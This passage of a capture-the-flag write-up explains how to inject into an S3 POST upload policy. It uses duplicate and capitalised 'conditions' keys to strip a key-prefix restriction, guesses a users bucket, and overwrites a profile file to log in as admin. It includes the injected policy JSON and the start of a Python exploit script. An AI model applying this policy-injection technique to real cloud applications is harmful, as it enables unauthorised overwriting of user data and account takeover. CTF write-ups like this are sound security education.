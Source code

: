 Since the condition contains `starts-with`, we cannot overwrite `userinfo/[email]/info.json`. However, the policy returned from the server is injectable. The GET parameter `acl=puclic-read` can be injected with quotes. Although S3 bucket will validate the JSON format, we can simply bypass its validation using capitalized words "Conditions". Therefore we can get rid of the annoying `starts-with` condition.


```json
{
                'expiration': '2019-04-09T03:16:49.000Z',
                'conditions': [
                    ['content-length-range', 1, 10000], {'bucket': 'cloudb-profilepics'},
                    {'acl': 'a'}
                ],
                'conditions': [
                    {'acl': 'public-read'},
                    ['starts-with', '$bucket', ''],
                    ['starts-with', '$key', ''],
                    ['starts-with', '$success_action_status', '']
                ],
                'Conditions': [
                    {'a': 'a'},
                    ['starts-with', '$key', 'profilepics/']
                ]
}

```

There are totally 3 conditions in the JSON policy:

1. This one will be overwritten by the second one.
2. S3 bucket will use this as the condition value.
3. It will simply be ignored. I think S3 will only parse the lowercase `conditions`.

The reason why using uppercase `Conditions` here is if we use an arbitrary word like `foobar`, S3 will return an error because it's an invalid key.


So we have a unrestricted policy and a totally controlable profile picture. We can overwrite the userinfo now! However, it seems like the userinfo is saved in another S3 bucket. What's worse, we even don't know the bucket name!

After some guessing, the bucket name turns out to be `cloudb-users`. Come on, it's not even `cloudb-userinfo`. I think the challenge is poorly-designed here. After overwriting the `info.json` we can login as admin and get the flag!

Here is the payload:


```python
#!/usr/bin/env python3

import requests
import base64
import hashlib
import hmac

def hmak(x):
    secret = b'[object Object]'
    x = x.encode()
    return hmac.new(secret, msg=x, digestmod=hashlib.sha256).hexdigest()

def b64d(x):
    return base64.b64decode(x.encode()).decode()

s = requests.session()

mail = 'heaton@heaton.tw'
password = 'slowpoke'
```